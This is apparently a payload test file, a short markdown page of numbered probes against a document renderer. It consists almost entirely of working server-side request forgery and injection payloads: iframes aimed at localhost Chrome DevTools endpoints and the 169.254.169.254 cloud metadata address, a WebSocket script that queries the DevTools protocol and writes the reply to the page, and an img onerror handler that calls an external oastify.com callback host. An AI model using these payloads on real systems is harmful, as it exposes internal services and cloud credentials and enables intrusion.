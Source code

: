 Hello

1st
<iframe src="http://localhost:3000/json" width="800" height="600"></iframe>
2nd
<iframe src="http://localhost:3000/json/version" width="800" height="600"></iframe>
3rd
<iframe src="http://169.254.169.254/latest" width="800" height="600"></iframe>
4th
<iframe src="https://app.adora.so" width="800" height="600"></iframe>
5th
<object data="https://example.com" type="video/mp4" width="600" height="400"></object>
6th
<div id="output"></div>
<script>
  var ws = new WebSocket('ws://localhost:3000');
  ws.onerror = console.error;
  ws.onclose = console.log;
  ws.onmessage = ev => {
    document.getElementById('output').innerText = ev.data;
  };
  ws.onopen = () => {
    ws.send(JSON.stringify({ "id": 1, "method": "Browser.getVersion" }))
  };
</script>
7th
<img src="image.png", onerror="setTimeout(function(){var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://dyfszgzhmux0g3q4fwhvlw5ualgc44st.oastify.com', true); xhr.send();}, 1000);">

